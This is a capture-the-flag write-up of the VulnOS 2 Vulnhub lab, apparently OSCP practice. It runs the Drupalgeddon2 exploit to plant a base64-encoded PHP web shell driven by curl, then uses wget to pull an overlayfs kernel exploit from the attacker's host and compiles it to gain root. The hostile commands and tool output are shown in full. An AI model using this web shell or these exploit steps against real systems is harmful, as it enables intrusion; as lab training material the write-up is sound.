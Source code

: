 ```yaml
---
layout: single_c
title:  "Vulnhub - VulnOS 2 Writeup"
toc: true
date:   2020-03-24 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

## Description
[Vulnhub - VulnOS 2.](https://www.vulnhub.com/entry/vulnos-2,147/) VulnOS are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills. This is version 2 - Smaller, less chaotic !
As time is not always on my side, It took a long time to create another VulnOS. But I like creating them. The image is build with VBOX. Unpack the file and add it to your virtualisation software. Your assignment is to pentest a company website, get root of the system and read the final flag


## Enumeration
Start off with an `nmap` scan

### Nmap
```bash
Nmap scan report for vulnos.com (192.168.113.4)
Host is up, received arp-response (0.00042s latency).
Scanned at 2020-03-14 08:06:25 EDT for 27s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     syn-ack ttl 64 ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.841 days (since Wed Aug 28 11:56:06 2019)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Sat Mar 14 08:06:52 2020 -- 1 IP address (1 host up) scanned in 29.33 seconds
```
We get hits on different ports such as 22 [SSH], 80[HTTP] and 6667[irc]. The target seems to be running a webserver.
On opening the website we are greeted with a message from the author. The vulnerable web application is hosted at `http://vulnos.com/jabc/`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/vulnos/web.png){: .align-center}

### Wappalyzer

`wappalyzer` is a firefox plugin that can be used to id the technologies used by a website.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/vulnos/wap.png){: .align-center}

We have `drupal 7` as the CMS. Do a quick search using `searchsploit` to see if there are any exploits available.

```bash
kali@kali:~/Desktop/vulnhub/vulnos$ searchsploit drupal 7 | cut -b 1-150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                                                         
Drupal 4.x - URL-Encoded Input HTML Injection                                                                                        
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                 
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                  
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)       
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)       
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)          
Drupal 7.12 - Multiple Vulnerabilities                                                                              
Drupal 7.x Module Services - Remote Code Execution                                                                  
Drupal < 4.7.6 - Post Comments Remote Command Execution                                                             
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                                                        
Drupal < 7.34 - Denial of Service                                                                                   
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                           
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                        
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting             
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                      
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                              
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                       
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                         
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                   
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                   
------------------------------------------------------------------------------------------------------------------------------------------------------
```

## Low Shell

After going through multiple possible exploits, I found one that was working.  
[Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449)  
Copy the exploit to `kali` machine and run the exploit to get a shell.
```bash
kali@kali:~/Desktop/vulnhub/vulnos$ ruby drupadaggon.rb http://vulnos.com/jabc
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://vulnos.com/jabc/
[i] Proxy  : 127.0.0.1:8080
--------------------------------------------------------------------------------
[!] MISSING: http://vulnos.com/jabc/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://vulnos.com/jabc/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://vulnos.com/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] WARNING: Could be a false-positive [1-1], as the file could be reported to be missing
[!] MISSING: http://vulnos.com/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] MISSING: http://vulnos.com/jabc/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://vulnos.com/jabc/includes/database.inc    (HTTP Response: 404)
[+] Found  : http://vulnos.com/jabc/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://vulnos.com/jabc/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OUNCKHJJ
[+] Result : OUNCKHJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://vulnos.com/jabc/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://vulnos.com/jabc/shell.php' -d 'c=hostname'
VulnOSv2>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
The kernel version of the system is
```bash
[-] Kernel information:
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```

```bash
kali@kali:~/Desktop/vulnhub/vulnos$ searchsploit ubuntu 3.13.0 | cut -b 1-150
-------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                 
                                                                                                                                                                     
-------------------------------------------------------------------------------------------------------------------------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                              
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                         
-------------------------------------------------------------------------------------------------------------------------------------------------------
```
We have an [Ubuntu kernel exploit.](https://www.exploit-db.com/exploits/37292) that can be used.  
Copy the exploit `Ubuntu` kernel exploit, compile it and run to get `root`.

```bash
www-data@VulnOSv2:/tmp$ wget http://192.168.1.9:8000/overlays.c
wget http://192.168.1.9:8000/overlays.c
--2020-03-22 17:20:06--  http://192.168.1.9:8000/overlays.c
Connecting to 192.168.1.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4982 (4.9K) [text/plain]
Saving to: 'overlays.c'

100%[======================================>] 4,982       --.-K/s   in 0s      

2020-03-22 17:20:06 (769 MB/s) - 'overlays.c' saved [4982/4982]


www-data@VulnOSv2:/tmp$ gcc overlays.c
gcc overlays.c
www-data@VulnOSv2:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
# 
```

We are root!.

## Further Reading

1. [Ubuntu Kernel vulnerability explained](https://www.exploit-db.com/exploits/37293)